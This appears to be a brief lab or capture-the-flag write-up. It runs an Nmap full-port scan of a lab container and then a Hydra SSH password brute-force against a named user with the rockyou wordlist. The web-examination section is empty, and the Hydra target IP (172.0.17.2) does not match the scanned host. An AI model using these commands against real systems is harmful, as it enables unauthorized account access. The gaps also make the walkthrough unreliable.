

# Injection

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:


## Intrusion

Finally, everything points to the need for a brute force attack on the SSH service with the username "borazuwarah" and a password dictionary.

For this, I'm going to use the Hydra tool

```ruby
hydra -l borazuwarah -P rockyou.txt -t 10 -w 1 ssh://172.0.17.2
```



Hydra obtains the password for that given user, so we can now connect to the SSH service.
